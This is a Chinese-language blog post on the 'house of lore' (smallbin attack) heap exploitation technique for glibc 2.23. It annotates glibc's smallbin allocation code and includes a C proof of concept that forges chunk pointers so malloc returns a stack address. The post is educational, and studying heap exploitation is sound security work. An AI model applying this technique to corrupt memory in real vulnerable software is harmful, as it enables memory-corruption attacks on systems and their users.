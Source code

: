 ```yaml
---
layout: post
title: house of lore：一种“smallbin attack”
category: system/Heap
date: 2023-9-23 21:04:32
---
```

Heap基础知识
<!-- more -->
[toc]
# house of lore

`house of lore`是针对`small bin`的一种攻击方法，和`unsorted bin attack`与`large bin  attack`很类似。个人感觉称之为`small bin attack`也没啥问题。

一句话描述该攻击方式：正常情况下，`small bin`取出一个`chunk`的时候会从末尾取出，这个`victim`的`bk`指针指向的是倒数第二个`chunk`，称为`bck`。此时检查`bck`的`fd`指针是否指向`victim`，通过检查后将`victim`取出，并将`bck`的`fd`指针指向`small bin`。若我们控制`victim`的`bk`指针，使其指向一个我们控制的`fake_chunk`，那么只需要控制该`fake_chunk`的`fd`指针指向了`victim`，这样以来便可以在取出`victim`的时候，将`fake_chunk`挂入`small bin`中。注意，取出`fake_chunk`的时候又需要经过`small bin`的检查，因此再此构造一个`fake_chunk2`，将`fake_chunk2`的`fd`指针指向`fake_chunk`，`fake_chunk`的`bk`指向`fake_chunk2`即可。

`small bin`取出的过程如下：

```c
if (in_smallbin_range(nb)) // 请求的大小位于smallbin
    {
        idx = smallbin_index(nb); // 请求的大小属于哪一个smallbin，找到下标idx
        bin = bin_at(av, idx);    // 通过下标找到具体的这个bin

        if ((victim = last(bin)) != bin) // last宏就是#define last(b) (b->bk)，因此就是定位到smallbin的最后一个chunk，而且smallbin不为空（bin->bk!=bin）
        {
            if (victim == 0) /* initialization check */
                             // 假如smallbin为空，那么这里不会进行分配，要到后面unsortedbin。合并所有的fastbin chunk，合并到unsorted bin里面去
                malloc_consolidate(av);
            else // 定位到了这个smallbin，取出里面的一个chunk，从队尾开始取
            {
                bck = victim->bk;                        // bck是victim的bk，也就是倒数第二个
                if (__glibc_unlikely(bck->fd != victim)) // bck的fd假如不为victim说明出错
                {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                set_inuse_bit_at_offset(victim, nb); // 取出这个victim。也就是队尾的这一个。
                bin->bk = bck;                       // 取出后，bin的bk将会变成倒数第二个chunk
                bck->fd = bin;                       // 取出后，倒数第二个chunk将会指向small bin

                if (av != &main_arena) // 假如不是在主线程(main_arena)，添加上不是在main_arena的标记
                    victim->size |= NON_MAIN_ARENA;
                check_malloced_chunk(av, victim, nb);
                void *p = chunk2mem(victim); // 获得指向可用区域的指针
                alloc_perturb(p, bytes);
                return p; // 返回该指针
            }
        }
    }
```

笔者在`glibc 2.23`下，使用了以下代码成功完成攻击：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    long fake_chunk[0x110]; // 在栈上伪造一个fake chunk，最终申请到这里表示攻击成功
    long fake_chunk2[0x110]; // 需要fake_chunk2，作用是最后从small bin中取出fake_chunk的时候，逃避检查
    printf("the addr of fake chunk is %p\n", fake_chunk);
    long* a = malloc(0x100); // 申请一个属于small bin的chunk
    malloc(0x20); // 防止被top chunk合并
    free(a); // chunk a会被置入 unsorted bin
    malloc(0x120); // 申请一个大chunk，这会让chunk a置入small bin 

    /* 攻击 */
    a[1] = &fake_chunk[0]; // chunk a的bk指针要指向fake_chunk
    fake_chunk[2] = a - 2; // fake_chunk的fd指针要指向chunk a 
    malloc(0x100); // 申请一个chunk a大小的chunk

    // 接下来我们希望能够取出fake_chunk，但是这个时候又会经历一次small bin的检查
    // 因此我们借助fake_chunk2来逃避检查
    // 只需要将fake_chunk的bk指向fake_chunk2，fake_chunk2的fd指向fake_chunk即可。
    fake_chunk[3] = &fake_chunk2[0]; // fake_chunk的bk指向fake_chunk2, fake_chunk2就是bck
    fake_chunk2[2] = &fake_chunk[0]; // fake_chunk2的fd必须指向fake_chunk
    long* b = malloc(0x100); // 再次申请一个
    printf("the addr of chunk b is %p.\n", b - 2); // 神奇地发现就是栈上的地址
    return 0;
}
```

## 
